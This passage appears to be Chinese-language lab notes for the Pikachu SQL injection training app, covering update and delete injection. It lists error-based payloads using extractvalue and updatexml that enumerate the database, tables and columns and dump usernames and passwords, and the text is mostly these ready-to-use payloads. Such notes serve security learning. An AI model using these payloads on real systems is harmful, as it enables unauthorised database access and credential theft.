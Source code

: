    ```
   'or extractvalue(1, concat(0x7e,database())) or '
   //修改信息中，随便一个文本框填入
   ```

2. 爆表

   ```
   'or extractvalue(1, concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~')) or '
   //修改信息中，随便一个文本框填入
   
   'or extractvalue(1, right(concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),25)) or '
   //修改信息中，随便一个文本框填入
   ```

3. 爆列名

   ```
   'or extractvalue(1, concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),'~')) or '
   //修改信息中，随便一个文本框填入
   
   'or extractvalue(1, right(concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'),25)) or '
   //修改信息中，随便一个文本框填入
   ```

4. 爆值

   ```
   'or extractvalue(1, concat(0x7e,(select group_concat(username,':',password) from users),'~')) or '
   //修改信息中，随便一个文本框填入
   
   sex=1' and updatexml(1, concat(0x7e,(select (concat_ws('-',username,password)) from pikachu.users limit 0,1)),1)%23
   //也可以试试这个用concat_ws()函数
   ```



### "delete"注入

在删除的时候，数据库需要调用delete，此时依旧**需要使用报错注入**

#### 考点：报错注入

#### 思路

需要抓取删除操作的数据包

类似于上一题就不重复了

**payload**

```
?id=78 or extractvalue(1, concat('~',(select group_concat(username,':',password) from users),'~'))
```

